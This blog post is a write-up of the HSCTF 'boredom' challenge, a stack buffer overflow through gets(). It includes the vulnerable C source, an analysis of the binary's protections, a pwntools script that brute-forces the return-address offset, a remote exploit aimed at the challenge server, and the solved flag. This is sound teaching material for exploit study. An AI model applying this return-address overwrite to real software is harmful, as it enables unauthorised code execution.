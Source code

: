 ```yaml
---
layout: post
author: andrea
tags: ctf
---
```

_Boredom_ is the the first ctf of binary exploitation. It provides a source file **boredom.c** and a binary file **boredom**.

First, I analyze the source code to find some exploitable code. Indeed, the main call the unsafe function <code class="cpp hljs inline"> gets </code>:

<pre><code class="cpp hljs">
	int main() {
		char toDo[200];
		setup();

		printf("Give me something to do: ");
		gets(toDo);
		puts("Ehhhhh, maybe later.");
		return 0;
	}
</code></pre>

<code class="cpp hljs inline">gets</code> saves the input in the char array <code class="cpp hljs inline">toDo</code> and it can overwrite the return instruction pointer in the stack if the user writes more than 200 characters. The other function in **boredom.c** tells us where the flag is located:

<pre><code class="cpp hljs">
	void flag() {
		FILE &#42;f = fopen("flag.txt", "r");
		char buf[50];
		if (f == NULL) {
			puts("You're running this locally or I can't access the flag file for some reason.");
			puts("If this occurs on the remote, ping @PMP#5728 on discord server.");
			exit(1);
		}
		fgets(buf, 50, f);
		printf("Hey, that's a neat idea. Here's a flag for your trouble: %s\n", buf);
		puts("Now go away.");
		exit(42);
	}	
</code></pre>

We just need to find the address of function <code class="cpp hljs inline">flag</code> and overwrite it in the return instruction pointer in the stack. However, even though this is the main concept behind the buffer overflow exploit, there are a lot of details to make it real.

## Architecture characteristics

Before writing any exploit we have to understand in which architecture the **boredom** binary is running. The <code class="bash hljs inline">readelf -h boredom</code> command answers to all our questions:

<pre><code class="plaintext hljs">
	ELF Header:
	Magic:   7f 45 4c 46 02 01 01 00 00 00 00 00 00 00 00 00
	Class:                             ELF64
	Data:                              2's complement, little endian
	Version:                           1 (current)
	OS/ABI:                            UNIX - System V
	ABI Version:                       0
	Type:                              EXEC (Executable file)
	Machine:                           Advanced Micro Devices X86-64
</code></pre>

Boom! It is 64bit architecture and little-endian (least significant byte are stored in the smallest address, e.g. higher in the stack).

Now we use our swiss army knife, aka pwntools, to get some other interesting features of this binary:

<pre><code class="python hljs">
	#!/usr/bin/python3
	from pwn import &#42;
	e = ELF('./boredom')
	print(e)
</code></pre>


the output is:

<pre><code class="plaintext hljs">
	Arch:     amd64-64-little
	RELRO:    Full RELRO
	Stack:    No canary found
	NX:       NX enabled
	PIE:      No PIE (0x400000)
</code></pre>

- _amd-64-little_ tells what we already know;
- _Full RELRO_: the Global Offset Table (GOT) is read-only, that is we can't change the function addresses.
- _No canary found_: the stack doesn't protect the return pointer if we try to overwrite it. This is the vulnerability we are exploiting.
- _NO PIE_: NO Position-Independent Executable, so the code can't run in any address but in those addresses specified by the binary file. In a _PIE_ file there are offsets instead of addresses.

## Exploit

Knowing all these characteristics of the the binary, we remain to guess the offset between the buffer <code class="cpp hljs inline">toDo</code> and the return instruction pointer in the stack. So when the program asks for the input we'll write 200 chars + offset + address of <code class="cpp hljs inline">flag()</code>.

<pre><code class="python hljs">
	#!/usr/bin/python3
	from pwn import &#42;
	e = ELF('./boredom')
	flag&#95;addr = p64(e.symbols['flag'])
	
	for i in range(201,220):
		print('i: ' + str(i))
		p = process('./boredom')
		payload = bytes("a"*i,'utf-8') + flag&#95;addr
		p.sendlineafter(': ', payload)
		res = p.recvall(timeout=1)
		if "flag" in res.decode():
			print(res.decode())
			break;
</code></pre>

where <code class="cpp hljs inline">flag&#95;addr = \xd5\x11\x40\x00\x00\x00\x00\x00</code> is 8 byte long.

When the binary returns _You're running this locally or I can't access the flag file for some reason._ we have found the right offset.

**In my case** the offset is 16 bytes:

<pre><code class="plaintext hljs">
	...
	i: 215
	[+] Starting local process './boredom': pid 203
	[+] Receiving all data: Done (21B)
	[*] Process './boredom' stopped with exit code -11 (SIGSEGV) (pid 203)
	i: 216
	[+] Starting local process './boredom': pid 206
	[+] Receiving all data: Done (162B)
	[*] Process './boredom' stopped with exit code 1 (pid 206)
	Ehhhhh, maybe later.
	You're running this locally or I can't access the flag file for some reason.
	If this occurs on the remote, ping @PMP#5728 on discord server.

	i: 217
	[+] Starting local process './boredom': pid 209
	[+] Receiving all data: Done (21B)
	[*] Process './boredom' stopped with exit code -11 (SIGSEGV) (pid 209)
	...
</code></pre>

We exploited the buffer overflow locally now it's time to make it working remotely:

<pre><code class="python hljs">
	#!/usr/bin/python3
	from pwn import *

	p = remote('pwn.hsctf.com', 5002)

	flag_addr = 0x00000000004011d5
	print( bytes('a'*(208),'utf-8')+p64(flag_addr))
	p.sendlineafter(': ', bytes('a'*(208),'utf-8')+p64(flag_addr))

	p.interactive()
</code></pre>

Unfortunately, the offset that we use to pwn the binary online is different from that we used locally. The offset is just 8 bytes instead of 16 bytes.

Eventually, the flag is:

<pre><code class="plaintext hljs">
	flag{7h3_k3y_l0n3l1n355_57r1k35_0cff9132}
</code></pre>

## Resources

- [https://ctf.hsctf.com/](https://ctf.hsctf.com/)
- [Relocation Read-Only (RELRO)](https://ctf101.org/binary-exploitation/relocation-read-only/)